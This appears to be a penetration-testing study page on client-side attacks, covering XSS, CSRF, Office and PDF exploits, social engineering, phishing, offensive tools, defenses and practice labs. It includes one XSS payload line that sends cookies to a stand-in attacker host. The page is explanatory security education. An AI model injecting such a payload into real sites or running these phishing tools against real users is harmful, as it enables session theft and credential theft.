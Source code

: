 # Client-Side Attacks

Client-side attacks target vulnerabilities in client applications like web browsers, email clients, and document readers. This section covers common techniques and tools for exploiting client-side vulnerabilities.

## 📋 Table of Contents
1. [Browser Exploitation](#browser-exploitation)
2. [Document Exploits](#document-exploits)
3. [Social Engineering](#social-engineering)
4. [Phishing Techniques](#phishing-techniques)
5. [Tools](#-tools)
6. [Defense](#-defense)
7. [Practice](#-practice)

## Browser Exploitation

### Common Attack Vectors
- **Cross-Site Scripting (XSS)**: Injecting malicious scripts
- **Cross-Site Request Forgery (CSRF)**: Unauthorized actions
- **Clickjacking**: Tricking users into clicking hidden elements
- **Browser Exploits**: Targeting browser vulnerabilities

### Example: XSS Payload
```javascript
<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>
```

## Document Exploits

### Microsoft Office
- **Macro Exploits**: Malicious VBA code
- **DDE Exploits**: Dynamic Data Exchange attacks
- **OLE Object Exploits**: Embedded malicious objects

### PDF Exploits
- JavaScript execution
- Form submission to attacker
- Embedded malicious files

## Social Engineering

### Common Techniques
- **Pretexting**: Creating fake scenarios
- **Baiting**: Offering something enticing
- **Quid Pro Quo**: Offering a service in return
- **Tailgating**: Physical access through social means

## Phishing Techniques

### Email Phishing
- **Spoofed Sender**: Forged email addresses
- **Malicious Attachments**: Exploit documents
- **Malicious Links**: Fake login pages

### Website Cloning
- Copy legitimate sites
- Host on attacker-controlled servers
- Phish for credentials

## 🛠 Tools

| Tool | Purpose |
|------|---------|
| **SET (Social-Engineer Toolkit)** | Automated social engineering attacks |
| **Gophish** | Open-source phishing framework |
| **Evilginx2** | Phishing framework with 2FA bypass |
| **King Phisher** | Phishing campaign toolkit |
| **BeEF** | Browser Exploitation Framework |

## 🛡 Defense

### User Education
- Recognize phishing attempts
- Verify email senders
- Don't enable macros from untrusted sources

### Technical Controls
- Email filtering
- Web filtering
- Application whitelisting
- Regular updates

## 📚 Resources
- [OWASP Client-Side Attacks](https://owasp.org/www-community/attacks/Client_Side_Attacks)
- [Phishing Techniques](https://www.phishing.org/phishing-techniques)
- [Social-Engineer Toolkit (SET) Guide](https://github.com/trustedsec/social-engineer-toolkit/)
- [BeEF Documentation](https://beefproject.com/)

## 🎯 Practice
1. [TryHackMe Phishing](https://tryhackme.com/room/phishingyl)
2. [Hack The Box](https://www.hackthebox.com/)
3. [VulnHub](https://www.vulnhub.com/)

## ⚠️ Legal Note
Only perform client-side attacks on systems you own or have explicit permission to test. Unauthorized testing is illegal.
